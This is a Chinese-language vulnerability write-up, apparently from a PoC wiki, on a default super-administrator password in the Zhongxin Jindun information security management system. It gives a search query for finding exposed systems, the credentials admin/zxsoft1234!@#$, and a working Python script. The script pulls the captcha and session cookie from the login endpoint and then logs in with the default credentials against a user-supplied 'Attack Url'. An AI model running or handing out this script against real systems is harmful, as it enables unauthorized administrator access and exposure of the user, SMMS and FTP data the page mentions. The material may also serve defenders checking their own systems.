



# 中新金盾信息安全管理系统 默认超级管理员密码漏洞

## 漏洞描述

中新网络信息安全股份有限公司中新金盾信息安全管理系统存在默认弱口令，登录身份为超级管理员 目前大部分使用的都受到了影响

## 漏洞影响

```
中新金盾信息安全管理系统
```

## 网络测绘

```
title="中新金盾信息安全管理系统"
```

## 漏洞复现

看到产品手册


系统默认管理员账号密码：

**admin/zxsoft1234!@#$**


登录页面如上，使用账号密码登录

其中泄露了大部分信息，其中包括 SMMS与FTP 及用户信息





## 漏洞利用POC

- ✅请求  ?q=common/getcode  时
- ✅返回了验证码，通过验证码可爆破账号密码等操作





```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 中新金盾信息安全管理系统 默认超级管理员密码漏洞                      \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "?q=common/getcode"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在获取验证码 {}?q=common/getcode ..... \033[0m".format(target_url))
        response_data = response.headers['Set-Cookie']
        check_code = re.findall(r'check_code=(.*?);', response_data)[0]
        PHPSESSID = re.findall(r'PHPSESSID=(.*?);', response_data)[0]
        print("\033[36m[o] 验证码:{}\n[o] PHPSESSID:{} \033[0m".format(check_code, PHPSESSID))
        POC_2(target_url, check_code, PHPSESSID)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, check_code, PHPSESSID):
    vuln_url = target_url + "?q=common/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":"PHPSESSID={}; check_code={}".format(PHPSESSID, check_code),
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
    }
    data = "name=admin&password=zxsoft1234!%40%23%24&checkcode={}&doLoginSubmit=1".format(check_code)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "1" in response.text and response.status_code == 200:
            print("\033[36m[o] 目标 {} 存在默认管理员弱口令 admin / zxsoft1234!@#$ \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在默认管理员弱口令     \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```





## 